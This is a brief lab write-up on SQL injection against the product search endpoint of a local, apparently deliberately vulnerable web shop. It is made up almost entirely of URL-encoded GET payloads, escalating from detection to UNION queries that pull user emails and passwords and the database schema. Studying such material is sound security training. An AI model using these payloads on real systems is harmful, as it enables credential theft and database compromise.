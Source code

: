 # SQL injections

Detection

```
GET http://localhost:3000/rest/products/search?q=%27-- HTTP/1.1
```

Escalation:

```
GET http://localhost:3000/rest/products/search?q=%27))%20limit%201;-- HTTP/1.1
```

Exploit:

```
GET http://localhost:3000/rest/products/search?q=%27))%20and%20deletedAt%20is%20not%20null%20order%20by%20deletedAt%20asc%20limit%201;-- HTTP/1.1
```

Priviledge escalation:

```
GET http://localhost:3000/rest/products/search?q=%27))%20and%201%3C%3E1%20union%20select%20email,password,'description','price','deluxePrice','image','createdAt','updatedAt','deletedAt'%20from%20users-- HTTP/1.1
```

Database pwn:

```
GET http://localhost:3000/rest/products/search?q=%27))%20and%201%3C%3E1%20union%20select%20sql,'name','description','price','deluxePrice','image','createdAt','updatedAt','deletedAt'%20from%20sqlite_master--  HTTP/1.1
```

### Why the field names?

Look up how SQL unions work for why we insert a list of field names as strings afterwards.

